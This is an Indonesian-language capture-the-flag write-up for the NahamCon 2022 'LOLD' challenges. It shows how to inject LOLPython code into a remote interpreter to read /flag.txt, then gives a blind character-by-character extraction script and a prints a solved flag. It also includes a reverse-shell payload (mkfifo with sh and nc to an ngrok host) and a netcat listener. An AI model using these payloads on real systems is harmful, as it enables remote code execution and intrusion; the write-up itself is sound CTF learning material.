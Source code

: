 # LOLD
#easy #medium #hard #python

## Target
Source code: [attachment-lolpython](attachment-lolpython.md)

Untuk menyelesaikan tantangan ini, kita (lagi-lagi) perlu membaca [dokumentasi](https://github.com/KartikTalwar/LOLPython/blob/master/LOLPython.py) software.

Di dalam dokumentasi tersebut terdapat contoh penggunaan untuk menghitung deret bilangan fibonacci:
```python
from datetime import date as DATE 

def FIBBING ( N ) :
    'ITERATE FIBONACCI TERMS LESS THAN N' 
    assert N >= 0 
    # BTW, FIBONACCI LIKE BUNNIES! LOL
    yield 1 
    yield 1 
    I = 1 
    HE = 1 
    while 1:
	I , HE = HE , I + HE 
	if HE >= N :
	    break 
	yield HE 

if __name__ == '__main__' :
    print >>_lol_sys.stderr, 'NOW IZ' , DATE . today ()
    if len(_lol_sys.argv) == 1 :
	N = 100 
    else :
	N = int(_lol_sys.argv[ 1 ]) 
    for I in FIBBING ( N ) :
	print I 
```

```python
IN MAI datetime GIMME date LIKE DATE

SO IM LIKE FIBBING WIT N OK?
    LOL ITERATE FIBONACCI TERMS LESS THAN N /LOL
    SO GOOD N BIG LIKE EASTERBUNNY
    BTW, FIBONACCI LIKE BUNNIES! LOL
    U BORROW CHEEZBURGER
    U BORROW CHEEZBURGER
    I CAN HAZ CHEEZBURGER
    HE CAN HAZ CHEEZBURGER
    WHILE I CUTE?
	I AND HE CAN HAZ HE AND I ALONG WITH HE
	IZ HE BIG LIKE N?
	    KTHXBYE
	U BORROW HE

IZ __name__ KINDA LIKE "__main__"?
    COMPLAIN "NOW IZ" AND DATE OWN today THING
    IZ BIGNESS ARGZ OK KINDA LIKE 1?
	N CAN HAS 100
    NOPE?
	N CAN HAS NUMBR ARGZ LOOK AT 1!!
    GIMME EACH I IN UR FIBBING WIT N OK?
	VISIBLE I
```

## LOLD
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT `/flag.txt`.

- Percobaan gagal running script di lolpython
![](attachments/Pasted%20image%2020220505135001.png)

- Percobaan berhasil running script `print("abc")` di lolpython
![](attachments/Pasted%20image%2020220505135043.png)

- Kita mengetahui bahwa lokasi flag ada di /flag.txt, kita bisa membuat oneliner python:
```python
with open('/flag.txt') as BALD: print (BALD.read())
```

- Secara manual, kita convert code tersebut menggunakan syntax lolpython.
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT BALD OWN read THING !
```

- Untuk mengetes kebenarannya, bisa dicoba secara local terlebih dahulu atau menggunakan `--convert`
```sh
python2 lolpython.py testfile # untuk mencoba menjalankan

python2 lolpython.py testfile --convert # untuk mencoba convert
```

- Dicoba
![](attachments/Pasted%20image%2020220505134904.png)

## LOLD2
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT `/flag.txt`!

- Percobaan running script di Python
![](attachments/Pasted%20image%2020220505141308.png)
![](attachments/Pasted%20image%2020220505141326.png)

- Ternyata, apabila berhasil, output yang dikeluarkan adalah `I RAN IT HURRAYYYY!!!`. Kita bisa membuat one liner python untuk menanyakan pertanyaan benar dan salah.
```python
# menanyakan apakah huruf pertama adalah f
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "f" else WAKAKA
```

- Convert ke versi lolpython
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "f" NOPE WAKAKA
```

- Jika benar
![](attachments/Pasted%20image%2020220505141824.png)

- Coba kita tanyakan apakah huruf pertama adalah c
```python
# menanyakan apakah huruf pertama adalah c
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "c" else WAKAKA

# versi lolpython
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "c" NOPE WAKAKA
```

- Jika salah
![](attachments/Pasted%20image%2020220505142215.png)

- Kita mengetahui jawaban benar dan salahnya, kemudian format flag adalah `flag{md5}`. Kita bisa buat script untuk menanyakan karakter satu persatu.
```python
#!/usr/bin/env python3

import socket;
import time;

# nc challenge.nahamcon.com 32341
flag_backup = 'flag{da682dec4bbcad7437bbb875266fda51}'
flag = ''
hostname = "challenge.nahamcon.com"
port = 32341

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    data = s.recv(4096)
    data = s.recv(4096)
    time.sleep(0.5)
    s.sendall(content.encode())
    data = s.recv(4096)
    # print(repr(data.decode()))
    return repr(data.decode())

payloads = [
"f","l","a","g","{",
"0",
"1",
"2",
"3",
"4",
"5",
"6",
"7",
"8",
"9",
"a",
"b",
"c",
"d",
"e",
"f",
"error"
]

for i in range (0, 100) :
    content = 'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE ' + str(i) +  ' OK KINDA LIKE "}" NOPE WAKAKA'
    if netcat(hostname, port, content)[1] != 'E':
        flag += '}'
        break
    else: 
        for payload in payloads :
            # print(payload)
            content = f'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE {i} OK KINDA LIKE "{payload}" NOPE WAKAKA'
            # print(content)
            if netcat(hostname, port, content)[1] != 'E':
                flag += payload
                print(flag)
                break
            if payload == "error":
                print(flag)
                raise Exception

print(flag)
```

- Jalankan
![](attachments/Pasted%20image%2020220505143336.png)

## LOLD2, cara lebih mudah
Saat menyelesaikan CTF, kita tidak gunakan ini. Kirain hanya bisa masukin one liner python aja :)

- lolpython untuk reverse shell
```python3
GIMME os
os OWN system WIT "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 2.tcp.ngrok.io 19742 >/tmp/f" OK
```

- Set up netcat listener
```sh
nc -lnvp 4444
```

- Eksekusi di remote machine
```python
cat lol-reverse | nc challenge.nahamcon.com 32659
```

![](attachments/Pasted%20image%2020220505144119.png)

## LOLD3
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!!

- Dengan cara LOLD2 di atas untuk membentuk reverse shell, sekarang kita bisa cari flagnya dengan `find`
![](attachments/Pasted%20image%2020220505144450.png)

## Source
https://jorianwoltjer.com/blog/post/ctf/nahamcon-ctf-2022/lold
